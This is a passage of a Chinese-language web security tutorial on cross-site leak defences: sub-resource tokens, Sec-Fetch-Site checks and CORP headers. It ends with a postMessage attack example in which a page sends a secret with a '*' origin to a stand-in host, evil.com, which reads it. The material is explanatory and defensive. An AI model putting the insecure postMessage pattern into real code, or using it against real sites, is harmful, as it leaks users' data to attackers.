 请注意，攻击者在这里并不关心读取响应正文，即使由于浏览器中的坚固隔离机制（如[跨源资源阻止](https://www.chromium.org/Home/chromium-security/corb-for-developers)），它也无法读取。它所需要的只是 `onload` 事件触发时收到的成功信息。

### 防御

#### 子资源保护

在某些情况下，可以实施特殊唯一令牌机制来保护敏感端点。

```
/api/users/1234?token=be930b8cfb5011eb9a030242ac130003
```

- 令牌应该长且唯一
- 后端必须正确验证请求中传递的令牌

尽管相当有效，但该解决方案在正确实施时会产生显著的开销。

#### 获取元数据（Sec-Fetch-Site）

此标头指定请求的发送来源，它具有以下值：

- `cross-site`
- `same-origin`
- `same-site`
- `none` - 用户直接访问页面

与 Sec-Fetch-Dest 类似，此标头由浏览器自动附加到每个请求，是获取元数据标准的一部分。使用示例：

```javascript
app.get('/api/users/:id', authorization, (req, res) => {
    if (req.get('Sec-Fetch-Site') === 'cross-site') {
        return res.sendStatus(403);
    }

    // ... 更多代码

    return res.send({ id: 1234, name: '约翰', role: '管理员' });
});
```

#### 跨源资源策略（CORP）

如果服务器返回带有适当值的此标头，浏览器将不会在另一个应用程序中加载来自我们站点或源的资源（甚至是静态图像）。可能的值：

- `same-site`
- `same-origin`
- `cross-origin`

阅读有关 CORP 的更多信息[请点击此处](https://resourcepolicy.fyi/)。

## postMessage 通信攻击

有时在受控情况下，尽管有同源策略，我们仍希望在不同源之间交换信息。我们可以使用 postMessage 机制。请看下面的示例：

```javascript
// 源：http://example.com
const site = new URLSearchParams(window.location.search).get('site'); // https://evil.com
const popup = window.open(site);
popup.postMessage('秘密消息！', '*');

// 源：https://evil.com
window.addEventListener('message', e => {
    alert(e.data) // 秘密消息！ - 泄露
});
```
